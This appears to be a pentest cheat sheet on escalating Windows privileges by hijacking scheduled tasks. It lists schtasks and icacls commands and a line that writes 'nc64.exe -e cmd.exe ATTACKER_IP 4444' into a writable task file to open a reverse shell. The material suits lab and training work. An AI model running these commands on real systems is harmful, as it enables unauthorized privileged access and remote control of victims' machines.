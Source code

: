 --- ---

<h2>General</h2>

Task scheduling in Windows refers to the ability of the operating system to automatically run certain tasks at predefined times or intervals. Exploitation via task scheduling could refer to an attacker using this feature to schedule malicious tasks that execute code or perform actions without the user's knowledge or consent. For example, an attacker could schedule a task to run a program that downloads and installs malware on the victim's computer, or to perform some other malicious action. Task scheduling can be exploited in various ways, including by creating tasks that are hidden or that run with elevated privileges, or by scheduling tasks to run at times when the user is not likely to notice them.

-   Scheduling tasks to run at times when the user is not likely to notice them: The attacker could schedule a task to run at a time when the user is unlikely to be using the computer, such as late at night or while the user is away from the computer. This could make it more difficult for the user to notice any suspicious activity or to identify the source of any problems that may occur.
	
-   Creating tasks that are hidden: The attacker could create a task that is not visible to the user and that runs in the background, potentially without the user's knowledge.
    
-   Creating tasks that run with elevated privileges: The attacker could create a task that runs with higher privileges than the user's account, potentially allowing the task to perform actions that the user does not have permission to perform.

---

<h2>Commands</h2>

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Find all the schedued Tasks
```
> schtasks /query /fo list /v (ALL THE TASKS)
> schtasks /query /tn {TASK} /fo list /v (ONLY THE TASK)
```

Find the permision needed to edit the task file
```
icacls c:\tasks\{TASK NAME} (I = Inheritance) (F = Full Controle) (icacls = Tool to find permision)
type c:\tasks\{TASK NAME} (check what the task is about)
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\{TASK} (Reverce Shell)
```

Set the attacking machine with a netcat server ready to lisent
```
schtasks /run /tn {TASK} (Launch the vulnerable task or wait until it run)
```
